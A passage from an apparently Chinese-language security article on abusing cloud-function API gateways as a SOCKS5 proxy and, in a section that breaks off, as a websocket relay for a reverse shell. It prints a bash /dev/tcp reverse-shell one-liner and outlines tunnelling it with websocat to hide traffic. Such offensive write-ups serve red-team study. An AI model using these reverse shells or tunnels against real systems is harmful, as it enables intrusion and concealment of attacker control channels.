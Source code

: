 至此，一条完整的通路便形成了。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426001951-100145e8-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426001951-100145e8-a5e2-1.jpeg)

### 效果

以 MySQL 连接为例，配置 Proxifier

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426001959-150e9a90-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426001959-150e9a90-a5e2-1.jpeg)

连接 MySQL：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002036-2aa00d30-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002036-2aa00d30-a5e2-1.jpeg)

在 VPS 上开启 SOCKS5 代理，成功打通连接  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002047-3151e9d2-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002047-3151e9d2-a5e2-1.jpeg)

#### 缺陷

*   受限于云函数的超时时间，最多仅能维持 **15 分钟长连接**
*   代理需要 VPS

反弹 shell
--------

腾讯云函数的 API 网关除了基本的 HTTP 协议，还提供了一个 websocket 协议触发器，具体描述如下：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002131-4b8136fa-a5e2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002131-4b8136fa-a5e2-1.png)

文中提到，每当客户端发出消息都会触发云函数的执行，这也是为什么上一节不能直接用 websocket 进行 socks5 代理。

介绍完 websocket 功能，接下来就看看如何利用这个东西实现反弹 shell 的功能。

### 原理

反弹 shell 的本质在于与目标建立一个可以传输数据的双向通道，攻击者通过通道传输的数据被受害主机执行并将结果借由通道原理返回。以 bash 反弹 shell 为例子：

```
bash -i >& /dev/tcp/127.0.0.1/8088 0>&1
```

*   `>& target` 等价于 `> file 2>&1`，即将_标准错误输出_和_标准输出_都重定向 target
*   `0>&1` 即将标准输入也重定向到 target  
    最终的结果如下  
    [![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002149-56438bc4-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002149-56438bc4-a5e2-1.jpeg)

既然如此，我们能不能再加两层 websocket 通道，形成这样的通道：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002159-5c71bf0c-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002159-5c71bf0c-a5e2-1.jpeg)

形成上述通道的难点在于需要能够从受害主机对 API 网关发起 socket 连接并传输 shell 数据，于是经过一番摸索找到这样一个工具 [websocat](https://github.com/vi/websocat)。
